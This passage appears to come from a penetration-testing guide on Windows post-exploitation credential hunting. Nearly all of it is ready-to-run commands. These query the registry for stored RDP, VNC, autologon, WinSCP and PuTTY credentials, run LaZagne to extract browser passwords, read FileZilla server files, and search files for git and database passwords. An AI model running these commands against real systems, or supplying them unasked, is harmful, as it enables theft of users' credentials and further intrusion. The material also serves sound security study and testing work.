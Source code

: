#### Phase 3: Registry and System Analysis
```cmd
# Check stored credentials
cmdkey /list
reg query "HKCU\Software\Microsoft\Terminal Server Client\Servers"

# VNC passwords
reg query "HKLM\SOFTWARE\RealVNC\WinVNC4" /v password

# Autologon credentials
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"

# Application-specific searches
reg query "HKCU\Software\Martin Prikryl\WinSCP 2\Sessions"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
```

### Application-Specific Hunting Techniques

#### Browser Credential Extraction
```cmd
# Chrome passwords (requires user context)
LaZagne.exe browsers -v

# Firefox manual search
dir /s "key*.db" "logins.json" "signons.sqlite"

# Edge credentials
LaZagne.exe browsers -v | findstr -i edge
```

#### Network Administration Tools
```cmd
# WinSCP stored sessions
reg query "HKCU\Software\Martin Prikryl\WinSCP 2\Sessions" /s

# PuTTY saved sessions
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s

# FileZilla credentials
dir /s "recentservers.xml" "sitemanager.xml"
type "%APPDATA%\FileZilla\recentservers.xml"
```

#### Development Environment Credentials
```cmd
# Git credentials
findstr /SIM /C:"github" /C:"gitlab" /C:"git clone" *.txt *.ps1 *.bat
dir /s ".git" "config"

# Database connection strings
findstr /SIM /C:"server=" /C:"uid=" /C:"password=" *.config *.xml *.json

# Environment configuration
findstr /SIM /C:"env" /C:"config" /C:"settings" *.json *.ini *.cfg
```
